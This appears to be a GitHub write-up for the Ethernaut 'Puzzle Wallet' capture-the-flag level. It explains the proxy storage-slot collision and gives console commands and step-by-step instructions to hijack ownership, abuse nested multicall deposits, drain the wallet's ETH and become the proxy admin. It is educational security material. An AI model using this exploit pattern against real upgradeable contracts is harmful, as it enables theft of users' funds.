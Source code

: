 # Puzzle Wallet

Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

  You'll need to hijack this wallet to become the admin of the proxy.

  Things that might help::

Understanding how delegatecalls work and how msg.sender and msg.value behaves when performing one.
Knowing about proxy patterns and the way they handle storage variables.

Recommend watch youtube [Multi Delegatecall | Solidity 0.8](https://youtu.be/NkTWU6tc9WU)
for understand muticall concept, the example code from that youtube in [example.sol](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/example.sol)

### Description
In an easy word, _Proxy_ and _Logic_ contracts share storage via `delegatecall`, that means `pendingAdmin` is `owner` as well as `admin` is `maxBalance`.

| Slot | Variable           |
|------|--------------------|
| 0    | pendingAdmin/owner |
| 1    | admin/maxBalance   |
| 2    | whitelisted        |
| 3    | balances           |

In this sense, you can guess that `admin` can be set to a new value via `maxBalance`.
In order to set `maxBalance`, you have to be whitelisted as well as the wallet contract's ether balance has to be 0.
In order to add someone in whiltelist, you have to be `owner`.
In order to be `owner`, you can set `pendingAdmin` as yourself through `proposeNewAdmin` in `PuzzleProxy`.
Once you are whiltelisted, you can call `execute` and `multicall` strategically to steal ethers from the wallet contract.

### Step by step

1. Propose yourself as a new owner
2. Add yourself in whitelist
3. Manipulate your balance
4. Drain out ETH
   - `multicall([deposit, multicall([deposit])])`
   - `execute(yourself)`
5. Set `maxBalance` to be a new admin

Credit: idea about step by step is from [maAPPsDEV/puzzle-wallet-attack](https://github.com/maAPPsDEV/puzzle-wallet-attack)

## Test in console
```shell
contract.abi
(10) [{…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}]0: {inputs: Array(1), name: 'addToWhitelist', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}1: {inputs: Array(1), name: 'balances', outputs: Array(1), stateMutability: 'view', type: 'function', …}2: {inputs: Array(0), name: 'deposit', outputs: Array(0), stateMutability: 'payable', type: 'function', …}3: {inputs: Array(3), name: 'execute', outputs: Array(0), stateMutability: 'payable', type: 'function', …}4: {inputs: Array(1), name: 'init', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}5: {inputs: Array(0), name: 'maxBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}6: {inputs: Array(1), name: 'multicall', outputs: Array(0), stateMutability: 'payable', type: 'function', …}7: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}8: {inputs: Array(1), name: 'setMaxBalance', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}9: {inputs: Array(1), name: 'whitelisted', outputs: Array(1), stateMutability: 'view', type: 'function', …}length: 10[[Prototype]]: Array(0)
```
```shell
contract.address
'0xdcde1dfC141EE526afE58C48be75835565806f7C'
```

```shell
await contract.owner();
'0xe13a4a46C346154C41360AAe7f070943F67743c9'
```

from contract.abi, it means we interact directly with PuzzleWallet contract not PuzzleProxy.
it cannot directly call the function `proposeNewAdmin` inside PuzzleProxy. Solve by using Remix to load your ABI PuzzleProxy into the address of the instance, or call it via function signature.

### Method1: call function signature and send transaction via console

function signature of the functionproposeNewAdmin:
```shell
web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)");
> '0xa6376746'
```
encode parameter:
```shell
web3.eth.abi.encodeParameter("address", player);
> '0x000000000000000000000000c3a005e15cb35689380d9c1318e981bca9339942'
```
Called data will be signature + encoded parameters:
```shell
contract.sendTransaction({ data: '0xa6376746000000000000000000000000c3a005e15cb35689380d9c1318e981bca9339942' });
```

### Method 2 using remix to load your ABI PuzzleProxy into the address of the instance
see solution in [test.js](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/test.js)
In this file, we use Alchemy web3 plugin to interact with metamask when send the raw transaction to contract.

![run](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/run.JPG)

Transaction in Alchemy mempool from web3 transaction to interact with proposeNewAdmin(player)

![run2](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/run2.JPG)

Verify result that you are the new owner:
```shell
await contract.owner();
```

Add yourself into whitelist:
```shell
await contract.addToWhitelist(player);
```

Verify result that player address in whitelist:
```shell
await contract.whitelisted(player);
```

Result on console:

![console](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/result1.JPG)

Step3 - Step5 see solution in file [delegate.js](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/delegate.js)

![complete](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/complete.JPG)